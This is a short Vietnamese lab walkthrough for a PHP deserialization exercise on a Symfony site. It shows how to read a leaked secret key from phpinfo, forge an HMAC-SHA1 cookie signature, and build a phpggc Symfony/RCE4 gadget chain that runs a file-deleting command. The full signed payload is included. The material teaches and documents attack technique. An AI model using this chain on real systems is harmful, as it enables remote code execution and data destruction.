







## Exploiting PHP deserialization with a pre-built gadget chain

1. Sau khi login vào account được cấp chuyển giá trị của cookie vào decoder nhận được 2 giá trị key-value. Giá trị `token` là encode base64 của php deserialized `users` object

2. Trong source code của trang web có đoạn comment khả nghi redirect đến trang thông tin của php `/cgi-bin/phpinfo.php`

3. Ở trang `phpinfo` tìm trường secret key để signature hmac cho trường `sign-hmac-sha1`

4. Dùng giá trị token làm message, secret key ở trên nhận thấy giá trị hmac-sha1 được generate ra chính là giá trị của `sign-hmac-sha1`.

5. Gửi thử giá trị sai cho 2 trường nhận được message error cho biết site dùng framework `symfony`. Sử dụng tool `phpggc` để generate payload rce
- ``./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'``

6. Thay payload vừa được generate vào message để signature cho object đó.

-> Payload cuối cùng: ``{"token":"Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==","sig_hmac_sha1":"a4387ed2b1ce0a2295bf0204a0cc025f81cd5921"}``

7. URL encode rồi send request

